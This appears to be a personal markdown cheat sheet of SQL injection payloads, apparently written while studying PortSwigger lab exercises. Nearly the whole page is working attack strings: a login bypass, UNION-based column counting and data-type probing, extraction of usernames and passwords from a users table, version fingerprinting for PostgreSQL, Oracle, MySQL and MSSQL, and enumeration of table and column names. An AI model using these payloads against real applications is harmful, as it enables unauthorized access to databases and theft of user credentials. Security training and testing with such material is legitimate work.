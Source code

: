 

### The Retrival of Hidden Data using the WHERE clause
```sql
' or 1=1 --
```

### SQL injection - Login functionality
```sql
administrator' --
```

### Union bases SQL Injection

**Rule:**
- The number and the order of the columns must be the same in all queries
- The data types must be compatible

**SQLi attack (way #1):**
```sql
' UNION select NULL, NULL, NULL --
```

**SQLi attack (way #2):**
```sql
' ORDER BY 3 --
```
**MYSQL and Microsoft**
```sql
' ORDER BY 3#
```

(1) Find the number of columns that the vulnerable app is using:
' order by 1-- -> not displayed on the page
' order by 2-- -> displayed on the page
' order by 3-- -> internal server error

3 - 1 = 2

(2) Determine the Data type of the Columns
```sql
' UNION SELECT 'a', NULL--
```
```sql
' UNION SELECT NULL, 'a'-- ->**
```
```sql
' UNION SELECT 'a', 'a' from DUAL-- -> Oracle database
```

(3) Output data from other tables

```sql
' UNION select NULL, username from users--
```
```sql
' UNION select NULL, password from users--
```

**For PostgreSQL Database**
```sql
' UNION select NULL, version()--
```
**For Oracle Database**
```sql
' UNION SELECT banner, NULL from v$version--
```

**For MySQL and MSSQL**
```sql
' UNION SELECT @@version, NULL#
```

Check the [Portswigger Database Cheetsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) for the database version syntax for other databases

```sql
' UNION select NULL, username || '*' || password from users--
```

### Output the List of Table Names on Non-Oracle Databases
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

### Output the column names of the table on Non-Oracle Database
```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'table_name'--
```
### Output the List of Table Names on Oracle Databases
```sql
' UNION SELECT table_name, NULL FROM all_tables--
```
### Output the column names of the users table on Oracle Database
```sql
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'table_name'-- 
```

